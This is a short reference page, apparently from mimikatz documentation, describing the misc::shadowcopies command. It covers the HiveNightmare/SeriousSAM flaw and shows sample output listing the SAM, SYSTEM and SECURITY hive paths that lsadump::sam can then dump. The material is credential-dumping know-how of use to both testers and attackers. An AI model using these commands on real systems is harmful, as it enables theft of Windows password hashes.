

# shadowcopies

`misc::shadowcopies` is used to list the available shadow copies on the system.&#x20;

The hivenightmare/serious sam vulnerability was discovered by [JonasLyk](https://twitter.com/jonasLyk/status/1417205166172950531). According to [Will Dormann](https://twitter.com/wdormann),`Builtin\Users` had `RX` access to the SAM, somewhere between Windows 10 1803 and 1809, hence allowing regular users to operate [SAM dumping](https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets).



.PNG>)

.PNG>)

```
mimikatz # misc::shadowcopies

ShadowCopy Volume : HarddiskVolumeShadowCopy12
| Path            : \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12\
| Volume LastWrite: 13/10/2021 10:12:09

* \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12\Windows\System32\config\SYSTEM
  | LastWrite   : 20/10/2021 15:07:53
* \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12\Windows\System32\config\SAM
  | LastWrite   : 20/10/2021 15:07:53
* \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12\Windows\System32\config\SECURITY
  | LastWrite   : 20/10/2021 15:07:53
* \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12\Windows\System32\config\SOFTWARE
  | LastWrite   : 20/10/2021 15:09:00
  
  ...Output Omitted...
```

The then [`lsadump::sam`](../lsadump/sam.md) can be used by defining the shadow copies paths for `/sam` and `/system`.
